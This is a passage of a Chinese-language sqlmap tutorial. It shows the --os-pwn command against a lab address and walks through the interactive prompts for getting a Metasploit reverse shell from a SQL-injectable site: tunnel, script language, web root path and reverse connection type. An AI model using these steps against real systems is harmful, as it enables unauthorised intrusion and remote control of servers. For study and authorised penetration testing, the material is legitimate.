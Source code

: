 [![img](https://p4.ssl.qhimg.com/t01356b89b90db96323.png)](https://p4.ssl.qhimg.com/t01356b89b90db96323.png)

[![img](https://p5.ssl.qhimg.com/t01c5976157489fa7a4.png)](https://p5.ssl.qhimg.com/t01c5976157489fa7a4.png)

[![img](https://p5.ssl.qhimg.com/t01de1bbab11027a0db.png)](https://p5.ssl.qhimg.com/t01de1bbab11027a0db.png)

### 反弹一个MSF的shell(—os-pwn)

在数据库为MySQL、PostgreSql或者SQL Server时，可以执行该选项。并且需要当前获取的权限足够高才可以。

```
sqlmap -u "http://192.168.10.20:88/index.php?id=1"  --os-pwn
```

[![img](https://p5.ssl.qhimg.com/t01b527df2522fbd96c.png)](https://p5.ssl.qhimg.com/t01b527df2522fbd96c.png)

**选择连接的tunnel，这里选择默认的 1 就可以了**
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh – ICMP tunneling
\> 1

**选择网站的脚本语言，这里根据情况选择**
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
\> 4

**选择网站的路径，这里也是根据情况而定，如果知道网站路径的话，可以选择2然后手动输入**
[1] common location(s) (‘C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/‘) (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
\> 2
please provide a comma separate list of absolute directory paths: C:\phpstudy\WWW

[![img](https://p1.ssl.qhimg.com/t01ed3941c4c73cca18.png)](https://p1.ssl.qhimg.com/t01ed3941c4c73cca18.png)

**然后选择连接的类型，这里选择默认的1 即可**

which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports between the specified and 65535
[3] Reverse HTTP: Connect back from the database host to this machine tunnelling traffic over HTTP
[4] Reverse HTTPS: Connect back from the database host to this machine tunnelling traffic over HTTPS
[5] Bind TCP: Listen on the database host for a connection
\> 1

**然后还会提示监听的地址和端口，这里直接回车即可**
